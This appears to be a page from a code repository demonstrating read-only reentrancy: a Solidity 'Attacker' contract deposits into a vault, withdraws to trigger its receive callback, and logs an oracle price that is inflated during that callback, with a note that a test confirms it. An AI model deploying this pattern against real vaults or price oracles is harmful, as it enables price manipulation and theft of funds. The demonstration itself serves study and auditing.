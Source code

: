 ```
contract Attacker {
    Vault private vault;
    Oracle private oracle;

    constructor(address _vaultAddress, address _oracleAddress) {
        vault = Vault(_vaultAddress);
        oracle = Oracle(_oracleAddress);
    }

    function attack() public {
        console.log("Price before deposit", oracle.getPrice());
        // Deposit to pump the price
        vault.deposit{value: 5 ether}();
        // Withdraw in order to trigger receive fallback
        vault.withdraw();
        console.log("Price after deposit", oracle.getPrice());
    }

    receive() external payable {
        // Perform malicious actions with pumped price
        console.log("Price during deposit", oracle.getPrice());
    }
}
```

* The result is, that DURING the receive callback the price is pumped and anybody blindly trusting the `getPrice()` would get a manipulated price. Running the test proves that.

<img src="output.jpeg" width="400" >
